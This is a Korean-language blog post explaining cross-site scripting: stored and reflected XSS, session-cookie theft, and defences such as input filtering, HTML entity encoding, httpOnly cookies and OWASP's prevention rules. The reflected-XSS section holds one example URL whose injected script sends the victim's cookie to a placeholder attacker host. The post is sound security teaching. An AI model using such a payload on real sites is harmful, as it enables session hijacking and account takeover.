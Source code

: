 ```yaml
---
layout: post
title: 'XSS(Cross-Site Scripting)이란?'
date: 2021-11-08 09:29:20 +0700
categories: [Network]
tags: [Security]
description: XSS(Cross-Site Scripting) 이란 웹 애플리케이션에서 일어나는 취약점으로 관리자가 아닌 권한이 없는 사용자가 웹 사이트에 스크립트를 삽입하는 공격 기법입니다.
---
```


# XSS (Cross-Site Scripting)

XSS란 웹 앱에서 일어나는 취약점이다. 관리자가 아닌 권한이 없는 사용자가 웹 사이트에 스크립트를 삽입하는 공격 기법이다. 대부분 사용자가 글을 쓰고 읽을 수 있는 페이지에 많이 발생하지만, 사용자의 입력 값을 웹 페이지에 보여주는 곳에서도 발생한다.

주된 XSS 공격 중 하나는 사용자의 세션을 탈취하는 프로세스이다. 해커가 XSS 공격에 취약한 웹 사이트에 악의적인 스크립트를 삽입하고, 그 스크립트가 있는 게시글을 열람한 사용자는 악성 스크립트로 인해 본인의 쿠키가 해커에게 전송된다. 세션 ID가 포함된 쿠키를 탈취한 해커는 그 사용자의 계정으로 로그인하는 방식이다.

웹 애플리케이션 보안 연구재단(<a href="https://owasp.org/" target="_blank" rel="noopener">OWASP</a>)에 따르면

> **크로스 사이트 스크립팅(XSS)는 애플리케이션에서 브라우저로 전송하는 페이지에서 사용자가 입력하는 데이터를 검증하지 않거나, 출력시 위험 데이터를 무효화 시키지 않을 때 발생한다.**

라고 정의하고 있다.

### 지속형 XSS 공격 (Persistent XSS)

<figure>
<img src="./../../images/network-xss1.png">
<figcaption>Fig 1. 지속형 XSS 공격</figcaption>
</figure>

지속형 XSS 공격은 XSS 공격 중 하나로, 지속적으로 피해를 입히는 XSS 공격이다. 해커는 웹 앱에서 XSS 취약점이 있는 곳을 파악한다. 예를 들면, HTML 요소를 조작하기 위해 DOM 메소드 중 `innerHTML`을 사용하는 경우가 있다. `innerHTML` 속성으로 DOM을 조작하는 경우, 값으로 HTML 태그를 입력하기 때문에 해커는 이 취약점을 노려 XSS 공격을 감행할 수 있다.

해커가 삽입한 스크립트는 데이터베이스에 저장되고, 저장된 악성 스크립트가 있는 게시글을 열람한 사용자는 이 악성 스크립트가 작동시키게 된다. 작동된 악성 스크립트로부터 사용자의 쿠키를 탈취할 수 있고, 또는 다른 사이트로 리다이렉트되도록 만들 수 있다. 데이터베이스에 이 악성 스크립트가 저장되어 지속적으로 공격한다고 하여 지속형 XSS 공격이라고 부른다. 또는, 데이터베이스에 저장된다하여 저장형 XSS 공격이라고도 부른다.

이 공격의 특징은 한 번의 공격으로 악성 스크립트를 삽입하여 큰 피해를 줄 수 있다는 점이다. 이 유형의 공격이 가장 많이 발생되는 곳은 게시판이며, 굳이 게시판이 아니더라도 사용자가 입력한 값이 데이터베이스에 저장이 되고, 저장된 값이 그대로 View로 보여주는 곳에 공격이 성공할 수 있다.

### 반사형 XSS 공격 (Reflected XSS)

<figure>
<img src="./../../images/network-xss2.png">
<figcaption>Fig 2. 반사형 XSS 공격</figcaption>
</figure>

반사형 XSS 공격은 사용자에게 입력받은 값을 서버에서 되돌려 주는 곳에서 발생한다. 사용자가 정보 검색을 위해 검색어를 입력하고 그에 따른 결과물을 보여주는 경우가 있다. 사용자가 입력한 값을 에러 메세지에 포함하여 보여주는 곳에 악성 스크립트가 삽입되면 서버가 사용자의 입력을 포함해 응답해줄 때 스크립트가 실행된다. 보통 반사형 XSS 공격은 공격자가 악의적인 스크립트와 함께 URL을 사용자에게 누르도록 유도한다. URL을 누른 사용자는 악의적인 스크립트가 실행되며 공격을 당하게 된다.

예를 들면, `GET` 요청으로 검색을 구현한 웹 앱에서 XSS 취약점을 확인한 해커는 아래와 같이 악성 스크립트를 삽입하여 요청을 날린다.

```
http://service.com?search=<script>location.href('http://hacker/cookie.php?value='+document.cookie);</script>
```

예시를 든 스크립트가 검색 인자가 되어 요청을 보낸다. 스크립트의 내용은 해커의 웹 페이지로 URL을 클릭한 사용자의 쿠키 값이 전송되도록 되어 있다. 링크를 클릭한 사용자는 자신의 의도와 상관 없이 자신의 쿠키 값을 전송하게 된다.

이는 스크립트가 서버에 저장되지 않고 즉시 스크립트를 실행한다. 이는 브라우저 자체적으로 차단하는 경우가 많아 저장형 XSS 공격에 비해 공격 성공률이 낮다.

# 대응 방안

##### 1. 필터 사용

유저가 `input` 태그에 텍스트를 입력해야하는 경우, 이 때 필터를 적용할 수 있다. 개인이 만든 필터보다는 전문적인 보안 업체나 기업에서 만든 것이 공신력있고 편하게 사용할 수 있다. 주로 <a href="https://wiki.owasp.org/index.php/Category:OWASP_AntiSamy_Project" target="_blank" rel="noopener">OWASP Antisamy</a>가 있다.

예를 들면, 텍스트가 입력되어 서버로 요청하기 전에 검증을 하여 대응할 수 있다. `input` 태그에 만약 `<` 또는 `>` 같은 태그 문자(`<script>` 방지)를 입력했을 때 이를 필터링한다. 이 때 출력되는 값을 `<` 와 같은 태그 문자 대신 HTML 문자로 변환하여 출력한다. 이렇게 하면 `<` 문자는 `&lt;` 로 변경된다. 즉, HTML 문서는 `&lt;script&gt;` 로 인식하여 `<script>` 태그 속의 코드는 실행되지 않는다.

##### 2. 쿠키 보안 옵션 사용

쿠키를 생성할 때 보안 옵션을 사용하여 웹 브라우저 상에서만 쓸 수 있도록 해야 한다. Node 환경에서 Express를 사용한다면, `httpOnly` 옵션을 쿠키에 지정하여 웹 브라우저상에서만 쿠키를 사용할 수 있다.

위 방안들과 별개로 웹 애플리케이션 보안 연구재단(OWASP)에서 XSS 공격을 방지하는 7계명을 발표했다.

### XSS 공격 방지 7계명

0. 허용된 위치가 아닌 곳에 신뢰할 수 없는 데이터가 들어가는 것을 허용하지 않는다.
1. 신뢰할 수 없는 데이터는 검증을 해야 한다.
2. HTML 속성에 신뢰할 수 없는 데이터가 들어갈 수 없도록 해야 한다.
3. 자바스크립트에 신뢰할 수 없는 값이 들어갈 수 없도록 해야 한다.
4. CSS의 모든 신뢰할 수 없는 값에 대해 검증해야 한다.
5. URL 파라미터에 신뢰할 수 없는 값이 있는지 검증해야 한다.
6. HTML 코드를 전체적으로 한 번 더 검증해야 한다.

### Reference

- <a href="https://owasp.org/" target="_blank" rel="noopener">웹 애플리케이션 보안 연구재단(OWASP)</a>
- <a href="https://wiki.owasp.org/index.php/Category:OWASP_AntiSamy_Project" target="_blank" rel="noopener">OWASP Antisamy</a>
